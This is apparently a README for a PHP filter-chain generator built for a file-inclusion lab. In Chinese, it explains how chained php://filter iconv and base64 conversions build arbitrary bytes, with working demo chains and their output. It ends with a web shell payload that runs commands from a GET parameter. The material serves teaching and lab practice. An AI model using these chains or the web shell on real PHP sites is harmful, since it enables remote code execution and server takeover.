


# PHP-FilterChain-Exploit
A Online PHP FilterChain Generator：https://probiusofficial.github.io/PHP-FilterChain-Exploit/

Used in  [【PHPinclude-labs · level 16: FilterChain:THE_END_OF_LFI】](https://github.com/ProbiusOfficial/PHPinclude-labs/tree/main/Level%2016)   to simplify the generation process.

idea：https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d

Modified from：

- https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT/

- https://github.com/synacktiv/php_filter_chain_generator/

## Detail

> 在开始之前，请先参阅 [【PHP手册 · wrappers · php://filter】](https://www.php.net/manual/zh/wrappers.php.php#wrappers.php.filter).
>
> 如果你无法理解，可以尝试完成  [【PHPinclude-labs】](https://github.com/ProbiusOfficial/PHPinclude-labs) 中的 【Level 6】 【Level 8】 【Level 9】【Level 11】【Level 11-】【Level 11
>
> +】
>
> php:// — 访问各个输入/输出流（I/O streams）

 php://filter - (PHP_Version>=5.0.0)其参数会在该协议路径上进行传递，多个参数都可以在一个路径上传递，从而组成一个过滤链，常用于数据读取。

| 名称                      | 描述                                                         | 示例                 |
| ------------------------- | ------------------------------------------------------------ | -------------------- |
| resource=<要过滤的数据流> | 这个参数是必须的。它指定了你要筛选过滤的数据流。             | `resource=flag.php`    |
| read=<读链的筛选列表>     | 该参数可选。可以设定一个或多个过滤器名称，以管道符（\|）分隔。 | `php://filter/read=A\|B\|C/resource=flag.php`  |
| write=<写链的筛选列表>    | 该参数可选。可以设定一个或多个过滤器名称，以管道符（\|）分隔。 | `php://filter/write=A\|B\|C/resource=flag.php` |
| <；两个链的筛选列表>      | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 | `php://filter/A\|B\|C/resource=flag.php`       |

我们以 `convert.iconv` 的 `CSISO2022KR` 为例子，看下面的这一串php代码：

```
php://filter/convert.iconv.UTF8.CSISO2022KR/resource=php://temp
```

我们尝试输出它：

```PHP
<?php
$url = "php://filter/convert.iconv.UTF8.CSISO2022KR/resource=php://temp";
$var = file_get_contents($url);

var_dump(file_get_contents($url));# Output：string(4) "" #这里""中没有内容是因为编码的字符是不可见字符

echo bin2hex($var);# Output：1b242943 （The hexcode of “.$)C”）
```



当然现在可能不是很明显，我们尝试强制解码再编码：

```PHP
<?php
$url = "php://filter/convert.iconv.UTF8.CSISO2022KR";
$url .= "|convert.base64-decode";
$var = file_get_contents($url."/resource=data://,aaa");
echo $url."|convert.base64-encode/resource=data://,aaa"."\n";
echo bin2hex($var)."\n";
var_dump(file_get_contents($url."|convert.base64-encode/resource=data://,aaa"));

#Output:

$url .= "|convert.base64-encode";
$url .= "/resource=data://,aaa";
echo $url."\n";
$var = file_get_contents($url);
echo bin2hex($var)."\n";
var_dump(file_get_contents($url));
```

上述程序的输出如下：

```PHP
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode/resource=data://,aaa
09a69a 
string(3) "     ��"

php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode/resource=data://,aaa
43616161
string(4) "Caaa"
```



因为base64的宽松性，这个解码过程可以这样理解：

```PHP
preg_replace('|[^a-z0-9A-Z+/]|s', '', $input);
```

所以当我们调用decode的时候首先会对非法字符进行置空，只剩下C和剩下的字符一起解码，那么我们想要还原这个C，按照base64encode的原理，至少需要4个字符，所以我们这里使用了resource=data://,aaa让C和三个a一起解码。

我们利用编码转换构造了一个C的base64decode串，那么能否利用`iconv`的特性构造其他字符呢？

答案是可以的，只要构造的字符在base64表内，那么就能通过不停的拼接`iconv`支持的编码，不断的利用base64特性去除非法字符，然后留下特定字符进行构造。

那么我们就可以构造`A-Za-z0-9+/=`任意字符。

既然这样，我们能否在把脑洞开大一点，我们既然能构造base64表中的任意字符，那我们讲这一串字符再进行一次base64解码不就相当于，我们能够构造不受限制的任意字符了么？！！！

根据上面的结论，理论上我们可以对任意payload的base64进行构造，只需要通过编码不断扩展就行，比如下面这一个过程：

```PHP
<?php
$url = "php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4";
$url_2 = "php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921";
$url_3 = "php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE";

$url .= "|convert.base64-decode";
$var = file_get_contents($url."/resource=data://,aaa");
echo $url."|convert.base64-encode/resource=data://,aaa"."\n";
echo bin2hex($var)."\n";
var_dump(file_get_contents($url."/resource=data://,aaa"));

$url .= "|convert.base64-encode";
$url .= "/resource=data://,aaa";
echo $url."\n";
$var = file_get_contents($url);
echo bin2hex($var)."\n";
var_dump(file_get_contents($url));
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode/resource=data://,aaa
d5a69a
string(3) "զ�"
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode/resource=data://,aaa
31616161 string(4) "1aaa"

php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode/resource=data://,aaa
db569a string(3) "�V�"
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode/resource=data://,aaa
32316161 string(4) "21aa"

php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode/resource=data://,aaa
dccdb569a6 string(5) "�͵i�"
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode/resource=data://,aaa
334d3231 string(4) "3M21"
```

可以看到 当我们增加对应字符的编码串的时候 他会在原字符串的前端生成对应字符。

那么思路就明确了，比如我们要构造生成下面这样的php payload

```PHP
<?=`$_GET[0]`;;?>
```

我们只需要构造他的base64形式的反转形式最后解码，就能在字符串前端生成我们的payload了

```
PD89YCRfR0VUWzBdYDs7Pz4=` ——> `4zP7sDYdBzWUV0RfRCY98DP
```

在了解基本原理之后，我们要做的就是使用编码构造一份字典，对应base64编码中每一个合法字符：https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT
